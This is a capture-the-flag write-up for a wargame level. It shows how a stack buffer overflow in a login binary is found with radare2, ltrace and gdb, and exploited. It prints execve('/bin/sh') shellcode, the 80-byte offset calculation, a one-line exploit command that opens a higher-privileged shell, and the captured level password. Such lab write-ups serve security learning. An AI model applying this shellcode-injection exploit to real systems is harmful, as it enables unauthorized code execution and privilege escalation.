 # Level 01 Buffer Overflow

## Overview
The binary is a basic login program that prompts for a `username` and `password`. It contains two `fgets()` functions with buffers of size `256` and `100`, suggesting potential **buffer overflow** vulnerabilities that could lead to *flow redirection* and *shellcode* execution.

### Main Function
```bash
./resources/r2.sh level01
[...]
[0x080483b0]> aaa
[0x080484d0]> s main
[0x080484d0]> V
[0x080484d0]> V
```
![R2 graph](../docs/media/l1.r2.png)

### Verify Username
The username comparison involves checking the first 7 characters against `"dat_wil"`, preventing a buffer overflow attack on this `fgets()` function.
```bash
[...]
[0x080484d0]> s sym.verify_user_name
[0x08048464]> V
[0x08048464]> V
```
![R2 Verify Username](../docs/media/l1.verify_username.png)

### `fgets` Buffer Sizes
Using `ltrace`, the buffer sizes of the 2 `fgets()` are 256 and 100 characters, on the addresses `0x0804a040` and `0xffffd6ec` respectively.
We can try to find out if the stack frame size available after the second `fgets()` call, is inside the size of the buffer, to see if we can overwrite the `EIP` address to redirect the flow.
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                     = 39
printf("Enter Username: ")                                      = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n"verifying username....

)                                = 24
puts("Enter Password: "Enter Password: 
)                                        = 17
fgets(hello
"hello\n", 100, 0xf7fcfac0)                               = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)                           = 29
+++ exited (status 1) +++
```

### Finding EIP Offset
#### `gdb` Disassembled Main
```gdb
(gdb) disassemble main 
Dump of assembler code for function main:
   [...]
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>          # fgets username
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>   # verify username
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>          # fgets password
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>   # verify password
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret    
End of assembler dump.
```
#### Breakpoint after Password `fgets`
```
(gdb) break *0x08048579                                     # break after fgets password
Breakpoint 1 at 0x8048579

Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Hello this is the buffer :)

Breakpoint 1, 0x08048579 in main ()
```
#### EIP - Buffer Address
To finally find the `offset`, we need to find the difference between our `Buffer Address` and the `EIP` (address of the next instruction to be executed).
```
(gdb) x/s $eax
0xffffd6cc:	 "Hello this is the buffer :)\n"
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
```

$$
\begin{aligned}
\text{EIP} &= \texttt{0xffffd71c} \\
\text{Buffer Address} &= \texttt{0xffffd6cc} \\
\texttt{0xffffd71c} - \texttt{0xffffd6cc} &= 80 \\
\text{Offset} &= 80
\end{aligned}
$$

## Resolution

Information recollected:
- User inputs
    - Username `fgets` input.
        - **Buffer size** of 256.
        - **Buffer address** is `0x0804a040`.
        - `memcmp` of size 7.
    - Password `fgets` input.
        - **Buffer size** of 100.
        - **Buffer address** is `0xffffd6ec`.
        - The `EIP` is reachable from this **buffer**.

This is a very convenient scenario to inject *shellcode* inside the unused section of the first **buffer**, and redirect the flow changing the `EIP` to point to our *shellcode* address, using the second **buffer**.

## Payload

$$
\begin{array}{rl}
\text{Buffer1.address + 7} & = \textbackslash x47\textbackslash xa0\textbackslash x04\textbackslash x08 \\
\text{Buffer1} & = dat\\_wil + \text{Shellcode} \\
\text{Buffer2} & = \text{80 character padding} + (\text{Buffer1.address + 7})
\end{array}
$$


### Shellcode
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

## Result

This one line command is able to run a shell as a level02 user.
```bash
cat <(printf "dat_wil\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n%80c\x47\xa0\x04\x08\n" | tr ' ' 'a') - | ./level01
```

## Flag

```bash
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
